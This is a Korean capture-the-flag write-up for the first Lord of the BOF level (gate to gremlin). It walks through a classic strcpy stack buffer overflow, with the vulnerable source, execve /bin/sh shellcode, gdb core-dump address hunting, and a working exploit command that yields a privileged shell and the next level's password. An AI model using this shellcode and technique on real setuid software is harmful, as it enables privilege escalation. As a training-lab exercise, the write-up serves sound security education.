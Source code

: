 1번 gate -> gremlin
===================

```  
id = 'gate'
pw = 'gate'
```

--------------------------------------------------------------
"ls" 명령어로 파일들 확인
```   
[gate@localhost gate]$ ls  
agremlin  gremlin.c  
```  

"cat gremlin.c"로 c파일 확인  
```  
[gate@localhost gate]$ cat gremlin.c
/*
	The Lord of the BOF : The Fellowship of the BOF
	- gremlin
	- simple BOF
*/

int main(int argc, char *argv[])
{
    char buffer[256];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}
[gate@localhost gate]$  
```  

인자는 무조건 2개이상 주어야 되고  
2번째 인자값을 buffer에 복사 buffer값을 출력하는 구도  

### strcpy함수의 취약점   
>(srtingcopy)strcpy함수는 strcpy(인자1, 인자2); 일때<br>
>인자1에 인자 2의 값을 복사해주는데 이떄 인자1의 크기에 상관없이<br>
>인자 2의 모든 값을 복사해서 인자1의 영역너머를 우리가 변조할 수 있게됨<br>  

### 인자 전달방법
>파일을 실행할때는 "./파일명"으로 실행  <br>
>여기에 인자를 포함해서 전달하려면 뒤에 인자로 넣을 것 을 추가<br>   
>파이썬으로 전달하려면? ex) ./gremlin `python -c 'print "A"*100'`
  

## 공략시작
우리가 쓸 쉘코드
```  
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"  
```
크기 = 25bytes

스택 프레임 구조   
>buffer(256) | SFP(4) | ret addr(4)  

260byte모두 덮고 속에다가 (nop)\x90이랑 쉘코드 25바이트를 넣고 ret add를 찾아서 마지막 4byte를 후루룩

### gremlin파일 접근
우선 gremlin파일은 
```
[gate@localhost gate]$ ls -l
total 16
-rwsr-sr-x    1 gremlin  gremlin     11987 Feb 26  2010 gremlin
-rw-rw-r--    1 gate     gate          272 Apr  7 21:42 gremlin.c
[gate@localhost gate]$ 
```
보이는 것과 같이 우리 다음레벨인 gremlin의 권한을 가지고있으므로 gdb를 쓸 수 없다.
  
    
디렉토리를 하나 만들고 그 속에다가 gremlin파일을 우리가 건드릴 수 있도록 복사를 해주자.
```
[gate@localhost gate]$ mkdir tmp
[gate@localhost gate]$ cp gremlin tmp
[gate@localhost gate]$ cd tmp 
[gate@localhost tmp]$ ls
gremlin
gate@localhost tmp]$
```
>tmp 디렉토리 생성후 cp명령어로 tmp디렉토리에 gremlin파일 복사 
  
 
  
### 페이로드
tmp파일 내에서 
./gremlin `python -c 'print "A"*260 + "\x90\x90\x90\x90"'`
을 넣어보자

```
[gate@localhost tmp]$ ./gremlin `python -c 'print "A"*260  + "\x90\x90\x90\x90"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 
Segmentation fault (core dumped)
[gate@localhost tmp]$ ls
core  gremlin                    
```
>core 파일이 생성되었다.


### 코어 파일 
먼저 해결책부터말하면
>core dumped가 되었을땐 core파일이 생길 것 이다.  
>그럼 그 코어 파일을 gdb로 연다음  
>x/100x $esp으로 \x90의 위치를 찾고
>그 주소로 페이로드를 다시짜서 원본파일에 공격을 하면 성공이다.

```
[gate@localhost tmp]$ gdb -c core -q
Core was generated by `./gremlin AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'.
Program terminated with signal 11, Segmentation fault.
#0  0x90909090 in ?? ()
(gdb) 
```
> '-c'옵션을 꼭 주어서 gdb를 실행하자


```
(gdb)x/100x $esp
0xbffff9f0:	0xfb609090	0xbf00bfff	0xbffffa40	0x40013868
0xbffffa00:	0x00000002	0x08048380	0x00000000	0x080483a1
0xbffffa10:	0x08048430	0x00000002	0xbffffa34	0x080482e0
0xbffffa20:	0x080484bc	0x4000ae60	0xbffffa2c	0x40013e90
0xbffffa30:	0x00000002	0xbffffb3e	0xbffffb48	0x00000000
0xbffffa40:	0xbffffc57	0xbffffc6a	0xbffffc81	0xbffffca0
0xbffffa50:	0xbffffcc2	0xbffffccc	0xbffffe8f	0xbffffeae
0xbffffa60:	0xbffffec8	0xbffffedd	0xbffffef9	0xbfffff04
0xbffffa70:	0xbfffff1c	0xbfffff29	0xbfffff31	0xbfffff42
0xbffffa80:	0xbfffff4c	0xbfffff5a	0xbfffff6b	0xbfffff79
0xbffffa90:	0xbfffff84	0xbfffff94	0xbfffffd4	0xbfffffe0
0xbffffaa0:	0x00000000	0x00000003	0x08048034	0x00000004
0xbffffab0:	0x00000020	0x00000005	0x00000006	0x00000006
0xbffffac0:	0x00001000	0x00000007	0x40000000	0x00000008
0xbffffad0:	0x00000000	0x00000009	0x08048380	0x0000000b
0xbffffae0:	0x000001f4	0x0000000c	0x000001f4	0x0000000d
0xbffffaf0:	0x000001f4	0x0000000e	0x000001f4	0x00000010
0xbffffb00:	0x0f8bfbff	0x0000000f	0xbffffb39	0x00000000
0xbffffb10:	0x00000000	0x00000000	0x00000000	0x00000000
0xbffffb20:	0x00000000	0x00000000	0x00000000	0x00000000
0xbffffb30:	0x00000000	0x00000000	0x38366900	0x2f2e0036
0xbffffb40:	0x6d657267	0x006e696c	0x41414141	0x41414141
0xbffffb50:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffb60:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffb70:	0x41414141	0x41414141	0x41414141	0x41414141
[gate@localhost tmp]$
```
메모리 뜯어본 결과
>argv[1]에 넣었던 AAA~ 는 bffffb 40~50에서 시작되므로
>널널히 bffffb50으로 ret addr을 맞쳐주자
>(그 뒤로 실행되다가 쉘코드를 만나면 쉘코드가 실행될 것 이다.)

```
[gate@localhost tmp]$ ./gremlin `python -c 'print "A"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"  + ""x90" * 135 + "\x50\xfb\xff\xbf"'             `
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA1󿿐h//shh/bin⏓ኂ°
                                                                                                                   ̀P
bash$
```
쉘코드 넣고 주소만 \x50\xfb\xff\xbf로 바꿔서 실행하니 bash가 잘 실행됬다.  
이제 원본파일에다가 공격을 하고 다음 level의 비밀번호를 알아내자.
```
[gate@localhost tmp]$ cd
[gate@localhost gate]$ ./gremlin `python -c 'print "A"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"  + "\x90" * 135 + "\x50\xfb\xff\xbf"'             `
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA1󿿐h//shh/bin⏓ኂ°
                                                                                                                   ̀P
bash$ my-pass
euid = 501
hello bof world
```

----
### gremlin
```
id = 'gremlin'
pw = 'hello bof world'
```

 
